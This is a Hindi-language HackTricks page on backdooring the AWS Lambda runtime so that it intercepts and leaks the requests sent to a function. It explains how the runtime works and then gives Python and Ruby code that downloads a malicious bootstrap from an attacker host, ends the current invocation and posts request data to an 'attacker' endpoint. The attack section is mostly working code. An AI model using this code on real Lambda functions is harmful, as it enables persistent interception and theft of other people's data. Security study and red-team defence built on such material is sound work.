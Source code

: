 # AWS - लैम्ब्डा अनुरोध चुराना

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

## परिचय <a href="#python-runtime" id="python-runtime"></a>

यह हमला मानता है कि आपके पास चल रहे लैम्ब्डा पर किसी प्रकार की **पहुंच है**।\
साथ ही, ध्यान देने वाली एक महत्वपूर्ण बात यह है कि **लैम्ब्डा आह्वान पूरी तरह से एक-दूसरे से अलग नहीं होते हैं लेकिन अलग-थलग होते हैं**। वे एक ही निष्पादन वातावरण में चल सकते हैं, हालांकि एक साथ नहीं। इसे ध्यान में रखते हुए, चलिए उस वातावरण का विश्लेषण करते हैं।

### अलगाव

लैम्ब्डा अलगाव इस cgroups का उपयोग करता है:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

जैसा कि 'sandbox' उपसर्ग किसी भी सामान्य कंटेनर इंजन (docker, podman, LXD, rkt) से मेल नहीं खाता, यह एक स्वामित्व वाला कंटेनर इंजन हो सकता है, जो अंदरूनी रूप से एक ओपन सोर्स कंटेनर रनटाइम जैसे [runC](https://github.com/opencontainers/runc) का उपयोग कर रहा हो।

### लैम्ब्डा कैसे काम करते हैं  <a href="#python-runtime" id="python-runtime"></a>

यह पायथन लैम्ब्डा आर्किटेक्चर प्रतीत होता है:

<figure><img src="../../../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

1. कंटेनर के बाहर एक प्रक्रिया, जिसे इनिट बाइनरी में "**स्लाइसर**" के रूप में संदर्भित किया गया है, साझा मेमोरी के माध्यम से इनिट प्रक्रिया को आह्वान घटनाओं को भेजती है।
2. इनिट प्रक्रिया 9001 पोर्ट पर एक HTTP सर्वर सेटअप करती है (हार्ड-कोडेड), जिसमें कई एक्सपोज्ड एंडपॉइंट्स होते हैं:
   1. /2018-06-01/runtime/invocation/**next** – अगली आह्वान घटना प्राप्त करें
   2. /2018-06-01/runtime/invocation/{invoke-id}/**response** – आह्वान के लिए हैंडलर प्रतिक्रिया वापस करें
   3. /2018-06-01/runtime/invocation/{invoke-id}/**error** – एक निष्पादन त्रुटि वापस करें
3. `bootstrap.py` में निम्नलिखित लूप **इनिट प्रक्रिया से एक नई घटना के लिए पूछताछ करता है**, और फिर **उपयोगकर्ता के फ़ंक्शन को इसे संभालने के लिए कॉल करता है** (यहाँ, आपके द्वारा अपलोड किया गया अनुरोध हैंडलर चलता है).\

<figure><img src="../../../../.gitbook/assets/image (11) (4).png" alt=""><figcaption></figcaption></figure>
4. फिर **हैंडलर प्रतिक्रिया निम्नलिखित एंडपॉइंट्स में से एक के माध्यम से इनिट प्रक्रिया को वापस भेजी जाती है**:
   1. `/{invoke-id}/response` – यदि उपयोगकर्ता हैंडलर सफलतापूर्वक निष्पादित हुआ
   2. `/{invoke-id}/error` – यदि आह्वान के संभालने के दौरान कोई अपवाद उठाया गया

## तकनीक सारांश <a href="#python-runtime" id="python-runtime"></a>

लैम्ब्डा फ़ंक्शन को भेजे गए डेटा को **इंटरसेप्ट करने के लिए बूटस्ट्रैप स्क्रिप्ट को दुर्भावनापूर्ण कोड के साथ प्रतिस्थापित करना संभव है**।\
ध्यान दें कि **अन्य भाषाओं में अन्य इंजनों** में उस भाषा में लिखी गई एक और **बूटस्ट्रैप स्क्रिप्ट** होती है, इसलिए यह केवल पायथन में नहीं बल्कि **अन्य भाषाओं का उपयोग करने वाले अन्य लैम्ब्डा में भी किया जा सकता है**।

## पायथन <a href="#python-runtime" id="python-runtime"></a>

लैम्ब्डा से **`/var/runtime/bootstrap.py`** डाउनलोड करें (या बस **अपना खुद का लैम्ब्डा स्पिन अप करें** और इसे प्राप्त करें) और वापस दरवाजा जोड़ें जो लैम्ब्डा को भेजे गए सभी डेटा को लीक करेगा। आपको बस कुछ पंक्तियाँ जैसे जोड़ने की आवश्यकता है:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (3).png" alt=""><figcaption></figcaption></figure>

### रनटाइम प्रतिस्थापन

अब नया **`boostrap.py` बनाया गया है**, इसे **डाउनलोड करना संभव है**, **वर्तमान लैम्ब्डा** **आह्वान समाप्त करें** और इसे चलाएं ताकि वैध वाले को **प्रतिस्थापित** किया जा सके:
```python
import os
from urllib import request

# Download bootstrap.py from your server
r = request.urlopen('http://attacker.com/bootstrap.py')
with open('/tmp/bootstrap.py', 'w') as f:
f.write(r.read().decode('utf-8'))

# Get invocation ID and end it
req = request.urlopen("http://127.0.0.1:9001/2018-06-01/runtime/invocation/next")
inv_id = req.headers["Lambda-Runtime-Aws-Request-Id"]
req = request.Request(f"http://127.0.0.1:9001/2018-06-01/runtime/invocation/{inv_id}/response", data=b"null")
req.add_header("Content-Type", "application/x-www-form-urlencoded")
request.urlopen(req)

# Start your bootstrap.py
os.system("python3 /tmp/bootstrap.py")
```
या आप [twist\_runtime.py](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/twist\_runtime.py) का भी उपयोग कर सकते हैं, जो पहले की तरह invocation को समाप्त करेगा, नया bootstrap चलाएगा और जानकारी को exfiltrate करेगा।

{% hint style="warning" %}
यदि एक lambda function का उपयोग 5-15 मिनट तक नहीं किया जाता है, तो यह बंद हो जाएगा, और अगली बार जब यह invoked होगा तो सभी परिवर्तन खो जाएंगे।
{% endhint %}

## Ruby Runtime <a href="#ruby-runtime" id="ruby-runtime"></a>

Ruby में, आप जिस फाइल में backdoor जोड़ना चाहते हैं वह **`/var/runtime/lib/runtime.rb`** फाइल है (इसे सिस्टम से प्राप्त करें या अपना खुद का lambda चलाकर प्राप्त करें)।

Python संस्करण में किए गए जैसे ही backdoor जोड़ना बहुत सरल है:
```ruby
# Add a require at the beggining
require 'json'
require 'net/http'
[...]
# In the loop where the invocation is treated
begin
context = lambdaContext.new(raw_request)
uri = URI('http://attacker:80/leak')
Net::HTTP.post(uri,JSON.generate(request))
[...]
```
फिर, आपको बस वही करना है जो आपने पायथन संस्करण में किया था, बस एक बदलाव के साथ:

* **बैकडोर को एक डायरेक्टरी में डाउनलोड करें**
* **सिम्लिंक** `/var/runtime/lib/*` को उस डायरेक्टरी के साथ जहां बैकडोर है
* वर्तमान लैम्ब्डा इन्वोकेशन को समाप्त करें
```ruby
# You can get a ruby shell with 'irb' or run from shell with ruby -e "..."

require 'net/http'

# Downloading new script
uri = URI("http://attacker/rumtime.rb")
r = Net::HTTP.get_response(uri)
File.write("/tmp/rumtime.rb", r.body)

# Create symlink
ln -s /var/runtime/lib/* /tmp

# Terminate currrent invocation
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
req = Net::HTTP.get_response(uri)
inv_id = req.header['Lambda-Runtime-Aws-Request-Id']
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+inv_id+'/response')
Net::HTTP.post(uri, 'null')
```
## संदर्भ

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग तरकीबें साझा करें।

</details>
